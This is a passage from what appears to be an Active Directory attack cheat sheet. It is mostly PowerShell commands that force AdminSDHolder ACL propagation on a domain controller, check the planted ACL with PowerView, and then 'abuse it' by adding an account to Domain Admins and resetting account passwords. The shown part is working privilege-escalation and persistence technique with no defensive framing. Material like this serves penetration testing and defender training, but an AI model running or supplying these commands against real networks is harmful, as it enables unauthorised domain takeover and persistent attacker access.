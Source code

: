 > > > > > > $sess = New-PSSession -ComputerName DomainDC
> > > > > > 
> > > > > > Invoke-Command -FilePAth .\Invoke-SDPropagator.ps1 -Session $sess
> > > > > > 
> > > > > > Enter-PSSEssion -Session $sess
> > > > > > 
> > > > > > Invoke-SDPropagator -showProgress -timeoutMinutes 1
> > > > > > ```
> > > > >
> > > > > :five: Validate ACL 
> > > > >
> > > > > > ```
> > > > > > . .\Powerview.ps1
> > > > > > 
> > > > > > Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match '<accountNAme>'}
> > > > > > ```
> > > > >
> > > > > :six: Abuse it
> > > > >
> > > > > > **Add Member to Group** 
> > > > > >
> > > > > > > **AD Module**
> > > > > > >
> > > > > > > > ```
> > > > > > > > Add-ADGroupMember -Identity 'Domain Admins' -Members <AccountName>
> > > > > > > > ```
> > > > > >
> > > > > > > **PowerView_dev**
> > > > > > >
> > > > > > > > ```
> > > > > > > > Add-DomainGroupMember -Identity 'Domain Admins' -Members <AccountName> -Verbose
> > > > > > > > ```
> > > > > >
> > > > > > > **Verify**
> > > > > > >
> > > > > > > > ```
> > > > > > > > Get-ADUser -Identity <AccountNAme>
> > > > > > > > 
> > > > > > > > Get-ADGroupMember -Identity 'domain admins
> > > > > > > > ```
> > > > > >
> > > > > > **Reset Account Password**
> > > > > >
> > > > > > >  **AD Module**
> > > > > > >
> > > > > > > > ```
> > > > > > > > Set-ADAccountPAssword -Identity <AccountNAme> -NewPAssword (ConvertTo-SecureString 'PASSME#!0rd' -AsPlainText -Force) -Verbose
> > > > > > > > ```
> > > > > > >
> > > > > > > **PowerView_dev**
> > > > > > >
> > > > > > > > ```
> > > > > > > > Set-DomainUserPAssword -Identity <AccountNAme> -AccountPAssword (ConvertTo-SecureString 'P@ssw0rdM3!' -AsPlainText -Force) -Verbose
> > > > > > > > ```
> >
> > :nine::b: **Domain Object ACL**
> >
> > > :nine::b::one: **PowerView_dev** 
> > >
> > > > ```